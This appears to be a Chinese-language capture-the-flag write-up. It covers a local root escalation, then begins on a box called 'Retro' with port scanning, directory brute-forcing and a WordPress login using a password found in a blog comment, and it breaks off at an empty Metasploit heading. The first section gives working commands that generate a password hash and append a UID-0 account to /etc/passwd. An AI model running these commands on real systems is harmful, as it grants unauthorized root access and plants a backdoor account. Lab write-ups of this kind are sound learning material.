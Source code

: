 ![image.png](https://s2.loli.net/2025/04/21/KJtFU7h4xTMXSdv.png)

![image.png](https://s2.loli.net/2025/04/21/BbHVy8ugDM794Ok.png)


![image.png](https://s2.loli.net/2025/04/21/qVJhyIMz7c8WG4C.png)

## 1./etc/passwd写入root提权

在这里会发现 brexit有修改/etc/passwd的权限 得切换到brexit用户

![image.png](https://s2.loli.net/2025/04/21/7gsl6S3N1o5tTBE.png)


```
sudo -u brexit /bin/bash
# 刚好/bin/bash没有密码
```

用openssl创建一个账户密码 将这个root权限用户写进/etc/passwd 就能提权了

```
openssl passwd -1 -salt qq qwe


echo 'qq:$1$qq$oMgRCtJEEoFVvNbosRA.B1:0:0::/root:/bin/bash' >> /etc/passwd

su qq
```

# Retro
## nmap扫描端口
发现就只有一个端口 访问是一个iis服务

## 目录爆破 
用了个大字典 爆出了一个路径 

![image.png](https://s2.loli.net/2025/04/22/qOWwSnRvLMXNAHx.png)

访问一下这个网站 但没啥头绪 接着扫描这个路径

接着用这个路径扫一下 是一个人的博客

## 信息收集 
还是对他进行文件爆破 会发现这个是个wordpress搭建的博客 也是在闲逛中发现 这个人的博客评论中有一个类似密码的东西 试一下这个博客名加密码 居然成功登录

![image.png](https://s2.loli.net/2025/04/22/C52HQZaOXElvYSi.png)


## msf攻击
